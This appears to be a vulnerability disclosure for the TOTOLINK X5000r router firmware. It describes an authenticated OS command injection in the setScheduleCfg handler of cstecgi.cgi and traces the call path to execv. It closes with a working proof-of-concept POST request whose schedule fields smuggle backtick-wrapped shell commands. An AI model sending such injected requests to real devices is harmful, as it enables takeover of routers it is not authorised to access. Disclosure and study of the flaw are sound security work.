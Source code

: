 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setScheduleCfg` (at 0x410E4C), binary /web/cgi-bin/cstecgi.cgi. These parameters (`switch`, `week`, `hour`, `minute`, `recHour`) are passed to the `Uci_set_str` function without any check.

![](setScheduleCfg.png)
The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/schedule.html?timestamp=1733728879167


{"mode":"1","hour":"6`ls>/tmp/1`","minute":"6`ls>/tmp/2`","week":"2`ls>/tmp/3`","recHour":"0`ls>/tmp/4`","topicurl":"setScheduleCfg","token":"836e5d5bf36f2c943d6291c332aee9b0"}
```
